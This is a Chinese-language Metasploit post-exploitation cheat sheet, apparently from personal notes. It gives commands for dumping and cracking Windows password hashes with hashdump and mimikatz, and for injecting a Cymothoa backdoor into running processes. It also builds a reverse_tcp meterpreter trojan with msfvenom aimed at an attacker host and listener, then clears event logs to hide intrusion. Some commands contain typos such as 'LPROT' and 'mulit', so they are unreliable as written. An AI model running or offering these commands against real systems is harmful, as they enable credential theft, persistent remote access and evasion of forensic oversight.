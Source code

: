 > <h2 id="11">获取主机密码</h2>
    hashdump //这个命令要系统权限，可用用于获取用户的hash值拿到之后可用去md5网站跑一下,http://www.cmd5.com
    
    使用mmiikatz获取密码
        load kiwi //加载插件
        msf //抓取hash
        wdigest //抓取明文密码

> <h2 id="12">后门</h2>
这些都是单独的工具
### Cymothoa后门
`将shell code注入到现有进程，进程一关它也就死了，而且拥有的权限和注入的进程是一致的,这个软件是安装到要注入后门的系统上的，这是下载链接https://sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/`
cymothoa -S //查看shell code编号
cymothoa -p 注入进程的PID -s shell_code编码 -y 开放的端口
注入成功之后，使用nc去连接
### Persistence 后门

> <h2 id="13">生成木马</h2>
`不要打开msf，使用msfvenom可用生成许多木马，例如exe,php,jsp,asp,apk,等等许多文件木马`
    msfvenom -p 要使用的payload LHOST=攻击者主机 LPORT=攻击者主机端口 -f 文件格式 -o 文件名
    例如我要生成一个exe木马
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.75.1 LPROT=4444 -f exe -o 123.exe
    
    生成好了木马文件之后，打开msf
    use exploit/mulit/handler
    set payload 之前设置的-p后面的参数
    set LHOST 192.168.75.1
    set LPORT 4444
    run //开始监听

> <h2 id="14">清理日志</h2>
    如果之前有创建用户或者是创建了什么程序，请删除掉
    clearev 删除日志
    session -k 删除所有会话
***
[回到顶部](#menu)